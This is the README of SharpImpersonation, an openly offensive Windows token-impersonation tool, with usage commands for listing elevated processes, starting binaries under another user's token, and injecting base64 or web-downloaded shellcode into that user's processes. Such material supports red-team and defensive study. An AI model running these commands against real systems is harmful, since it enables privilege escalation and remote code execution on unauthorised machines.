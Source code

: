 # SharpImpersonation

This was a learning by doing project from my side. Well known techniques are used to built *just* another impersonation tool with some improvements in comparison to other public tools. The code base was taken from:

* [https://github.com/0xbadjuju/Tokenvator](https://github.com/0xbadjuju/Tokenvator)

A blog post for the intruduction can be found here:

* [https://s3cur3th1ssh1t.github.io/SharpImpersonation-Introduction/](https://s3cur3th1ssh1t.github.io/SharpImpersonation-Introduction/)

## Usage examples

===========================    List user processes    ===========================

`SharpImpersonation.exe list`

![alt text](https://github.com/S3cur3Th1sSh1t/SharpImpersonation/blob/main/Images/List.PNG?raw=true)

===========================    List only elevated processes    ===========================

`SharpImpersonation.exe list elevated`

===========================    Impersonate the first process of <user> to start a new <binary>    ===========================

`SharpImpersonation.exe user:<user> binary:<binary-Path>`

![alt text](https://raw.githubusercontent.com/S3cur3Th1sSh1t/SharpImpersonation/main/Images/CreateProcessWithTokenW.PNG)

======================  Inject base64 encoded shellcode into the first process of <user>  ======================

`SharpImpersonation.exe user:<user> shellcode:<base64shellcode>`

![alt text](https://raw.githubusercontent.com/S3cur3Th1sSh1t/SharpImpersonation/main/Images/ShellcodeBase64.PNG)

======================  Inject shellcode loaded from a webserver into the first process of <user>  ======================

`SharpImpersonation.exe user:<user> shellcode:<URL>`

![alt text](https://raw.githubusercontent.com/S3cur3Th1sSh1t/SharpImpersonation/main/Images/ShellcodeWebDownload.PNG)

======================  Impersonate user <user> via ImpersonateLoggedOnuser for the current session  ======================

`SharpImpersonation.exe user:<user> technique:ImpersonateLoggedOnuser`

![alt text](https://raw.githubusercontent.com/S3cur3Th1sSh1t/SharpImpersonation/main/Images/ImpersonateLoggedOnUser.png)